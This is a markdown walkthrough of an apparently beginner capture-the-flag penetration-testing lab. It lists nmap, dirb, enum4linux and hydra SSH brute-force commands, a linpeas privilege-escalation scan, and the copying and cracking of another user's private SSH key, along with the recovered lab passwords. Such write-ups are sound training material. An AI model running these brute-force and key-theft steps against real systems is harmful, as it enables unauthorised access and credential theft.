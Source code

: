 # Basic Penetration Testing Box

--------------------------------------------------------------------
## GIVEN INFO


**IP Address**: 10.10.19.208

--------------------------------------------------------------------
## PROCEDURE



### 1. FIND EXPOSED SERVICES


**TOOLS**: NMap

```
nmap -sC -sV -oN nmap.txt 10.10.19.208
```

![nmap](./nmap.png)

**EXPOSED PORT (SERVICE)**:
  22 (ssh),
  80 (http),
  139 (smbd),
  445 (smbd),
  8009 (ajp13),
  8080 (http)

----------------------------------
## 2. FIND HIDDEN DIR ON WEB SERVER


**TOOLS**: DirBuster

```
dirb http://10.10.19.208
```

![dirb](./dirb.png)

**HIDDEN DIR**: /development

----------------------------------
## 3. GET USERNAME & PASSWORD


**TOOLS**: Enum4Linux, Hydra

**NOTE**: J has a weak password

```
enum4linux -a 10.10.19.208 | tee enum4linux.log
```

![enum4linux](./enum4linux.png)

**USERS**: jan, kay

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt.gz ssh://10.10.19.208
```

![hydra](./hydra.png)

**PASSWORD**: armando

----------------------------------
## 4. FIND PRIVILEGE ESCALATION VECTORS


**TOOLS**: LinPeas, JohnTheRipper


```
  wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
  scp linpeas.sh jan@10.10.19.208:/dev/shm
```

```
cd /dev/shm
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.txt
```

```
scp jan@10.10.19.208:/dev/shm/linpeas.txt linpeas.txt
scp jan@10.10.19.208:/home/kay/.ssh/id_rsa kay_id_rsa
```

![linpeas](./linpeas.png)

```
ssh2john kay_id_rsa > 4john.txt
john 4john.txt
```

![john](./john.png)

**PASSWORD**: beeswax

----------------------------------
## 5. FINAL PASSWORD



```
ssh -i kay_id_rsa kay@10.10.19.208
cat pass.bak
```

**PASSWORD**: heresareallystrongpasswordthatfollowsthepasswordpolicy$$

